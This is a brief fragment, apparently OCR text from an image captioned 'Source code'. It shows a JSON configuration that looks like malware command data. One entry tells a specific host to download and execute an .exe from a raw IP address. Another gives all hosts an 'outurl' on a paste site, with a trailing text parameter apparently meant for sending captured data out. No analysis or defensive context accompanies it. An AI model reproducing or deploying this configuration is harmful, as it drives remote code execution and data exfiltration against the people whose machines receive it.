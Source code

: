 {
"CPAX6RDS01":{"downexec":"http://192.225.166.199/cpp.exe"},
"all":{"outurl":"http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="}
}
